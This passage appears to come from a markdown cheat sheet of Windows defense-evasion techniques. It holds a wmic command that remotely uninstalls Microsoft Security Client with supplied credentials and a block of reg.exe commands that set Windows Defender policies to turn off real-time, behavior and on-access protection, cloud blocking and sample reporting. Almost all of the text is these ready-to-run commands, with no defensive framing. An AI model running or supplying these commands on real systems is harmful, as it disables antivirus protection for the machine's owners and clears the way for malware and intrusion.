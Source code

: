 #### 1.2.3.2 - Windows Security

##### 1.2.3.2.1 - Command Prompt

```
C:\> wmic.exe [/node:<IP>] [/user:<username> /password:<password>] product where name="Microsoft Security Client" call uninstall /nointeractive
```

## 1.3 - Registry

### 1.3.1 - Disable Windows Security

#### 1.3.1.1 - Disable Real Time Protection

##### 1.3.1.1.1 - Command Prompt

```batch
C:\> reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\MpEngine" /v "MpEnablePus" /t REG_DWORD /d "0" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableBehaviorMonitoring" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableIOAVProtection" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableOnAccessProtection" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableScanOnRealtimeEnable" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\Reporting" /v "DisableEnhancedNotifications" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "DisableBlockAtFirstSeen" /t REG_DWORD /d "1" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d "0" /f

reg.exe add "HKLM\Software\Policies\Microsoft\Windows Defender\SpyNet" /v "SubmitSamplesConsent" /t REG_DWORD /d "0" /f
```

